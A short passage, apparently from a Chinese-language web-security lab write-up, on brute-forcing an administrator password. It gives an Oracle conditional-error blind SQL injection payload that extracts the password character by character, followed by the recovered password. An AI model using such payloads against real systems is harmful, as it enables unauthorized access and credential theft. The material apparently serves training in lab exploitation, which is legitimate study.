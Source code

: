 ![img](assets/%E5%9B%BE%E7%89%87%2064.png) 

### 2.13.7. **爆破密码**

这里的操作和第十二关是一样的操作，这里就直接进行爆破了。

```
payload：'||(select case when substr(password,1,1)='a' then to_char(1/0) else '' end from users where username='administrator')||'
```

```
密码：v49z9t6xecxca6zokl3e
```
